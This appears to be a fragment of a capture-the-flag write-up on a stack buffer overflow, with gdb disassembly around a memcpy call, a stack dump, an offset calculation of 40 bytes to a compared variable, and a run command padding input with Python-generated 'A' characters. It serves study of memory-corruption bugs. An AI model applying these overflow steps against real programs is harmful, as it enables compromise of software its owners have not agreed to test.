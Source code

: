 


```
run "8" "AAAA"

   0x08048473 <+79>:	call   0x8048320 <memcpy@plt>
=> 0x08048478 <+84>:	cmpl   $0x574f4c46,0x3c(%esp)

the return of memcpy

0xbffff6b0:	..........	0x41414141	...[1]....	...[2]....
0xbffff6c0:	...[3]....	...[4]....	...[5]....	...[6]....
0xbffff6d0:	...[7]....	...[8]....	...[9]....	0x00000008

the var we compar with located at:

(gdb) x $esp+0x3c
0xbffff6dc:	0x00000008

p/d 0xbffff6dc - 0xbffff6b4 = 40

run "9" $(python -c 'print "A" * 40')

36 is the maximum number of bytes that can be copied into the buffer (9 * 4).


```

The "memcpy" function is vulnerable to buffer overflow attacks if the size of the destination buffer is smaller than the size of the source buffer. 










